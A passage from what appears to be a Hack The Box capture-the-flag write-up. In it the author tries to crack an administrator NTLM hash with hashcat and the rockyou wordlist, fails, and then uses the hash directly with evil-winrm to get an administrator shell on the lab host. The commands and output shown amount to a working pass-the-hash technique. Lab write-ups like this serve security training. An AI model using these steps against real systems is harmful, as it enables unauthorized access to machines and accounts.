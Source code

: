 `administrator`'s hash is `32693b11e6aa90eb43d32c72a07ceea6`

Let's try cracking the credential first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 1000 -a 0 admin.ntlm /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 bytDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
<SNIP>
```

It's not crackable.. Let's directly use this hash.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6    
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

It worked!